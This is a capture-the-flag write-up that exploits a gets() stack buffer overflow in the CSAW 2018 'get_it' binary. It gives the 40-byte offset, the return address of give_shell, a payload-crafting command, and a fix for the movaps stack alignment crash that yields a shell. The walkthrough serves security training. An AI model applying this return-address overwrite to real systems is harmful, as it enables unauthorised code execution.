


# get_it csaw18

## Triage

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ file get_it
get_it: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=87529a0af36e617a1cc6b9f53001fdb88a9262a2, not stripped
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ checksec get_it
[*] '/home/noobuntu/nightmare/bof/ret_func/getit/get_it'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ chmod +x get_it
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ ./get_it
Do you gets it??
yeah
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ ./get_it
Do you gets it??
123456789
```

- So it gets our input and does nothing.
- It gets our input with `gets` function:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ ltrace ./get_it > /dev/null
__libc_start_main(0x4005c7, 1, 0x7ffd894530f8, 0x400600 <unfinished ...>
puts("Do you gets it??")                                                                      = 17
gets(0x7ffd89452fc0, 1, 1, 0x40069eyup
)                                                          = 0x7ffd89452fc0
+++ exited (status 0) +++
```

## Static analysis

- Decompiling main and ghidra shows us it is simple enough.



- There is also `give_shell` function which spawns a shell.
- Our task is simple, overflow the `user_input` buffer so it changes execution.
- Address of `give_shell` function is:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ objdump -Mintel -d get_it | grep give_shell
00000000004005b6 <give_shell>:
```

- So return address must be `\xb6\x05\x40\x00\x00\x00\x00\x00`
- I'll write the exploit so I can automate this process.
- But before that let's figure out how much padding I need to add.

## Dynamic analysis

- `gdb` time...

```sh
gef➤  disass main
Dump of assembler code for function main:
   0x00000000004005c7 <+0>:     push   rbp
   0x00000000004005c8 <+1>:     mov    rbp,rsp
   0x00000000004005cb <+4>:     sub    rsp,0x30
   0x00000000004005cf <+8>:     mov    DWORD PTR [rbp-0x24],edi
   0x00000000004005d2 <+11>:    mov    QWORD PTR [rbp-0x30],rsi
   0x00000000004005d6 <+15>:    mov    edi,0x40068e
   0x00000000004005db <+20>:    call   0x400470 <puts@plt>
   0x00000000004005e0 <+25>:    lea    rax,[rbp-0x20]
   0x00000000004005e4 <+29>:    mov    rdi,rax
   0x00000000004005e7 <+32>:    mov    eax,0x0
   0x00000000004005ec <+37>:    call   0x4004a0 <gets@plt>
   0x00000000004005f1 <+42>:    mov    eax,0x0
   0x00000000004005f6 <+47>:    leave
   0x00000000004005f7 <+48>:    ret
End of assembler dump.
gef➤  b *main+37
Breakpoint 1 at 0x4005ec
```

- Let's now run the program specify some string and figure out how much bytes I need to add to padding.

```sh
gef➤  search-pattern ABCD
[+] Searching 'ABCD' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x6026b0 - 0x6026b6  →   "ABCD\n"
[+] In '/usr/lib/x86_64-linux-gnu/libc.so.6'(0x7ffff7dbd000-0x7ffff7e15000), permission=r--
  0x7ffff7dcbea1 - 0x7ffff7dcbed8  →   "ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqr[...]"
  0x7ffff7ddcb2c - 0x7ffff7ddcb63  →   "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwx[...]"
  0x7ffff7ddcbca - 0x7ffff7ddcbe4  →   "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
  0x7ffff7ddcc1a - 0x7ffff7ddcc3e  →   "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdd50 - 0x7fffffffdd54  →   "ABCD"
gef➤  i f
Stack level 0, frame at 0x7fffffffdd80:
 rip = 0x4005f1 in main; saved rip = 0x7ffff7c29d90
 Arglist at 0x7fffffffdd70, args:
 Locals at 0x7fffffffdd70, Previous frame's sp is 0x7fffffffdd80
 Saved registers:
  rbp at 0x7fffffffdd70, rip at 0x7fffffffdd78
```

- `0x7fffffffdd78` - `0x7fffffffdd50` is `0x28` and that is 40 in decimal.
- So 40 bytes for the padding and we should be then overwritting the return address.
- Craft the input with:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof$ python3 -c 'print(b"\x41" * 40 + b"\x51\x52\x53\x54")' > ret_func/getit/input.txt
```

- Now let's run our program with `input.txt`
- For brevity, when the program starts complaining in `gdb` about `[!] Cannot disassemble from $PC`, you know you've affected the return address somehow.

## Exploitation

- Running the `exploit.py` and getting this in `gdb`:

```sh
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4005ec <main+0025>      call   0x4004a0 <gets@plt>
●    0x4005f1 <main+002a>      mov    eax, 0x0
     0x4005f6 <main+002f>      leave
 →   0x4005f7 <main+0030>      ret
   ↳    0x4005b6 <give_shell+0000> push   rbp
        0x4005b7 <give_shell+0001> mov    rbp, rsp
        0x4005ba <give_shell+0004> mov    edi, 0x400684
        0x4005bf <give_shell+0009> call   0x400480 <system@plt>
        0x4005c4 <give_shell+000e> nop
        0x4005c5 <give_shell+000f> pop    rbp
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "get_it", stopped 0x4005f7 in main (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4005f7 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

- So it successfully redirects execution to `give_shell` function, that's good.
- But just before it executes `system`, it crashes.
- Stack alignment problem, same as with the last challenge `warmup`.
- See output of `sudo dmesg | tail`:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ sudo dmesg | tail
[ 5184.591874] traps: get_it[4708] general protection fault ip:7c58eea50973 sp:7ffd58d29658 error:0 in libc.so.6[7c58eea28000+195000]
[ 5420.711357] traps: get_it[5098] general protection fault ip:4005f7 sp:7ffed2c3ca98 error:0 in get_it[400000+1000]
```

### "The movaps problem"

- Let's fix this problem and get our well deserved shell.
- __`movaps` instruction triggers SEGFAULT when stack isn't 16 byte aligned prior to a function call__.
- One easy evasion of this problem is to jump deeper into the function, instead of first instruction of `get_shell`.
- Here's the `get_shell` function:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ objdump -Mintel -d ./get_it | grep -A9 give_shell
00000000004005b6 <give_shell>:
  4005b6:       55                      push   rbp
  4005b7:       48 89 e5                mov    rbp,rsp
  4005ba:       bf 84 06 40 00          mov    edi,0x400684
  4005bf:       e8 bc fe ff ff          call   400480 <system@plt>
  4005c4:       90                      nop
  4005c5:       5d                      pop    rbp
  4005c6:       c3                      ret
```

- Let's jump to `0x004005ba` which is 2 instructions after our first one.
- Rewrite our `exploit.py` to load that address instead of `0x4005b6`.
- And just like that, we're in




---

#### Sources

1. https://github.com/hoppersroppers/nightmare/tree/master/modules/04-Overflows/05-bof_callfunction/csaw18_getit
